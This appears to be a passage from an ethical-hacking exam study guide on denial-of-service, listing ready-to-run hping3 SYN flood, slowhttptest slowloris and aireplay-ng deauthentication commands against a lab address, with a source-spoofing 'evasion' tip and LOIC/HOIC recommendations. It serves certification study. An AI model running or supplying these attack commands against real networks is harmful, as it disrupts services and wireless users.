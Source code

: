 ### Practical Exam Checklist

1. Launch SYN flood against target
2. Perform HTTP slowloris attack
3. Execute wireless deauthentication
4. Monitor attack effectiveness
5. Document all traffic patterns
### Pro Tips:

- **Always check**: `ulimit -n` for file descriptor limits
- **Critical ports**: 53 (DNS), 80 (HTTP), 443 (HTTPS)
- **Exam trick**: Use `--rand-source` in hping3 for evasion
- **Must-know tools**: LOIC, HOIC (GUI alternatives)

### Real-World Exam Lab

Task: Test DoS Protection
```
1. hping3 -S -p 80 --flood -a random 10.10.10.10
```

```
2. slowhttptest -c 500 -H -u http://10.10.10.10
```

```
3. aireplay-ng --deauth 100 -a AP:MAC wlan0mon
```

```
4. tcpdump -i eth0 -nn 'icmp' -c 1000 > icmp_flood.pcap
```

# Run these until automatic:

```
hping3 -S -p 80 --flood 10.10.10.10
```

```
slowhttptest -c 1000 -H -u http://10.10.10.10
```

```
aireplay-ng --deauth 100 -a AP:MAC wlan0mon
```

```
netstat -n -p tcp | grep SYN_RECV
```

**[Back to top](#top)**
___

## Module 11: Session Hijacking
### TCP Session Hijacking (Exam Weight: 25%)
